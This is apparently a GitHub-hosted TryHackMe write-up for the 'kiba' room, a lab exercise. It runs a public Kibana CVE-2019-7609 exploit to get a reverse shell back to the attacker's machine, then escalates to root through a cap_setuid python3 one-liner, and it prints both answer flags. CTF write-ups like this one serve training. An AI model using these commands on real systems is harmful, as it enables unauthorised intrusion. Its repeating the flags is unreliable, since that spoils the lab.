 ## kiba - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/kiba)

**IP: 10.10.227.175**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Prototype Pollution <br>

**Tools Used**: Nmap<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap scan. Ffuf found nothing.

  ```
  nmap -sC -sV -T5 -p- 10.10.227.175

  PORT     STATE SERVICE      VERSION
  22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
  |   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
  |_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
  80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
  |_http-title: Site doesn't have a title (text/html).
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  5044/tcp open  lxi-evntsvc?
  5601/tcp open  http         Elasticsearch Kibana (serverName: kibana)
  | http-title: Kibana
  |_Requested resource was /app/kibana
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
- For all of the questions before first flag, you can find the answers [here](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/).
  
- I knew that I had the exploit somewhere in my Kali but couldn't remember where lol. I'll post the exploit link as well.

---

## ⚙️ Shell Access

- OK, so for exploitation, this exploit it's very simple to use. Runs with Python2 and you need to provide few parameters: URL, host, port and shell. Exploit can be found [here](https://github.com/LandGrey/CVE-2019-7609.git).
  If execution is properly done you will get a reverse shell on target. Clone the repo, start a listener and run it.

  ```
  git clone https://github.com/LandGrey/CVE-2019-7609.git
  cd CVE-2019-7609

  python2 CVE-2019-7609-kibana-rce.py -u http://10.10.227.175:5601 -host [YOUR-THM-IP] -port 4444 --shell
  [+] http://10.10.227.175:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
  [+] reverse shell completely! please check session on: [YOUR-THM-IP]:4444
  
  nc -lvnp 4444            
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.227.175] 36748
  bash: cannot set terminal process group (949): Inappropriate ioctl for device
  bash: no job control in this shell
  To run a command as administrator (user "root"), use "sudo <command>".
  See "man sudo_root" for details.
  
  kiba@ubuntu:/home/kiba/kibana/bin$ whoami
  whoami
  kiba
  kiba@ubuntu:/home/kiba/kibana/bin$
  ```
  
- Awesome, capturing flags now.

---

## 🧍 User Privilege Escalation

- User flag is pretty straightforward.

  ```
  kiba@ubuntu:/home/kiba$ ls
  ls
  elasticsearch-6.5.4.deb  kibana  user.txt
  
  kiba@ubuntu:/home/kiba$ cat user.txt
  cat user.txt
  THM{1s_easy_pwn3d_k1bana_w1th_rce}
  ```
  
- Moving to escalation.

---

## 👑 Root Privilege Escalation

- Cronjobs and `sudo -l` did nothing, but when I checked for capabilities I found the way to root.

  ```
  kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
  getcap -r / 2>/dev/null
  /home/kiba/.hackmeplease/python3 = cap_setuid+ep
  /usr/bin/mtr = cap_net_raw+ep
  /usr/bin/traceroute6.iputils = cap_net_raw+ep
  /usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
  ```
  
- Here I tought that you always have to copy Python somewhere else in order to escalate, but that's not true since it didn't work for me that way at all. Then I just ran it as it is and got the root. One liner exploit can be found on GTFOBins.

  ```
  kiba@ubuntu:/home/kiba/.hackmeplease$ ls -al
  ls -al
  total 4356
  drwxrwxr-x 2 kiba kiba    4096 Mar 31  2020 .
  drwxr-xr-x 6 kiba kiba    4096 May 14 04:16 ..
  -rwxr-xr-x 1 root root 4452016 Mar 31  2020 python3
  
  kiba@ubuntu:/home/kiba/.hackmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
  <kmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'     
  # whoami
  whoami
  root
  
  # cat /root/root.txt
  cat /root/root.txt
  THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
  ```
  
- Cya in the next one!

---

## 🏁 Flags

- **User Flag**: `THM{1s_easy_pwn3d_k1bana_w1th_rce}`
- **Root Flag**: `THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding where I saved exploit from last time...`

- What did I learn?
  `That sometimes you don't have to copy Python in order to escalate, if it's a capability you can just run it.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
